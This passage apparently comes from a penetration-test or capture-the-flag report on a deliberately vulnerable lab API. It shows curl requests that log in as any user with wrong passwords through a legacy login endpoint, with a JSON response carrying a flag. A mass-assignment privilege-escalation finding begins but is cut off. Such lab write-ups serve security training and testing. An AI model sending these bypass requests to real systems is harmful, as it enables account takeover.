 - **Vulnerable location:** `/api/v1/users/login` endpoint
- **Overview:** Legacy endpoint completely bypasses password validation, allowing authentication with any email and any password
- **Impact:** Complete authentication bypass enabling immediate account takeover of any user
- **Severity:** Critical

**Exploitation Steps:**

1. Target the legacy authentication endpoint directly on the backend:
    
    ```bash
    curl -X POST <http://capital-api.sandbox.local:8000/api/v1/users/login> \\
      -H "Content-Type: application/json" \\
      -d '{"user": {"email": "Pikachu@checkmarx.com", "password": "anything"}}'
    
    ```
    
2. The endpoint returns successful authentication with user data and token:
    
    ```json
    {
      "user": {
        "username": "Pikachu",
        "email": "Pikachu@checkmarx.com",
        "admin": false,
        "token": "Keep it up!"
      },
      "flag": "flag{Impr0peR_Ass3ts_ManAg3m3nt}"
    }
    
    ```
    
3. Verify bypass works with any user and any password:
    
    ```bash
    curl -X POST <http://capital-api.sandbox.local:8000/api/v1/users/login> \\
      -H "Content-Type: application/json" \\
      -d '{"user": {"email": "bob_dev@checkmarx.com", "password": "wrongpassword"}}'
    
    ```
    

**Proof of Impact:**
Successfully authenticated as multiple users (`Pikachu@checkmarx.com`, `bob_dev@checkmarx.com`) using completely wrong passwords. Flag `flag{Impr0peR_Ass3ts_ManAg3m3nt}` confirms successful exploitation.

### AUTH-VULN-08: Mass Assignment Privilege Escalation

**Summary:**

- **Vulnerable location:** `PUT /api/user` endpoint
- **Overview:** User update endpoint allows setting admin=true via mass assignment without authorization checks
- **Impact:** Any authenticated user can escalate to admin privileges and access administrative functions
- **Severity:** Critical
